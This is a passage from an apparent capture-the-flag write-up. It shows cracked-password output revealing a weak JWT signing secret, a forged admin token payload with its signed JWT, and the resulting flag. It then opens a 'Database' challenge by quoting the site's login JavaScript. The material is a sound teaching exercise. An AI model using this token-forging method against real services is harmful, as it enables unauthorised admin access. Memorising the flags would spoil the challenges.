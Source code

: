 ```console
1g 0:00:00:00 DONE (2020-01-29 19:13) 3.846g/s 401723p/s 401723c/s 401723C/s 051682..tangga
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The secret key is `tank`. Let's use [this website](https://jwt.io/) to check (and modify) the token:

```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "id": 3,
  "username": "guest",
  "access_level": 5
}
```

We can change it to:
```
{
  "id": 1,
  "username": "admin",
  "access_level": 1
}
```

The result, after signing with the secret, is:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsImFjY2Vzc19sZXZlbCI6MX0.6XoD_y9eXpHbW772jNuZRbKS3e1hjeKmYgCzMfpmBtY
```

We modify the cookie in the browser and get the members flag:

```
Welcome admin!
We have the best members-only content for you: CTF{334c1116684195e9dbe104d181a5922a}
```

## Database (50 points)

> Looks like some sensitive information is right up for grabs... Can you find the database password? 
> 
> Flag format: CTF{32-hex}

As part of the login process, the website uses the following Javascript function:

```javascript
function verifyuser() {
	var url = 'https://nk932uo6zj.execute-api.eu-central-1.amazonaws.com/default/CyberTankAuthLambda';
	var data = { action: "login", username: document.forms.login.username.value, password: document.forms.login.password.value };
	var datatype = 'json';

	function success(response) {
		alert("Login successful.");
	 	document.cookie = 'session='+response+';';
		document.location.reload();
	}

	$.get(url, data, success, datatype).fail(function(err) { alert("Login failed.") })
	return false;
```